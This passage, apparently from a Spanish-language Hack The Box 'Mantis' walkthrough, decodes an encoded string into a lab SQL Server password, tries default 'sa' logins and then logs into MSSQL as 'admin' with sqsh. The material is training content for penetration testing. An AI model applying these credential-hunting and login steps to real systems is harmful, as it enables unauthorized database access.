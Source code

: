 ```bash
❯ echo "NmQyNDI0NzE2YzVmNTM0MDVmNTA0MDczNzM1NzMwNzI2NDIx" | base64 -d| xxd -ps -r; echo
m$$ql_S@_P@ssW0rd!
```

Vemos una posible contraseña asociada al servicio de SQL (no olvidemos guardar siempre las posibles credenciales que identifiquemos). Ahora, checando el contenido del archivo txt, tenemos lo siguiente:

![](/assets/images/htb-mantis/mantis_sql.png)

Tenemos varias pistas:
- CMS Orchard
- Usuario del SQL server **admin**
- Base de datos **orcharddb**

Ya tenemos credenciales potenciales a probar en el servicio de SQL.

### Microsoft SQL Server

A través del puerto 1433 vemos que corre el servicio *Microsoft SQL Server*. Podriamos intentar acceder a dicho recurso como el usuario **sa** (usuario común):

```bash
❯ sqsh -U 'sa' -S 10.10.10.52
sqsh-2.5.16.1 Copyright (C) 1995-2001 Scott C. Gray
Portions Copyright (C) 2004-2014 Michael Peppler and Martin Wesdorp
This is free software with ABSOLUTELY NO WARRANTY
For more information type '\warranty'
Password: 
Login failed for user 'sa'.
Password: 
Login failed for user 'sa'.
Password: 
Login failed for user 'sa'.
Password: ^C
```

No nos permite acceder al servidor como el usuario **sa** y sin contraseña o probando contraseñas default. Recordando que tenemos potenciales credenciales, las probamos:

```bash
❯ sqsh -U 'admin' -S 10.10.10.52
sqsh-2.5.16.1 Copyright (C) 1995-2001 Scott C. Gray
Portions Copyright (C) 2004-2014 Michael Peppler and Martin Wesdorp
This is free software with ABSOLUTELY NO WARRANTY
For more information type '\warranty'
Password: 
1> 
```
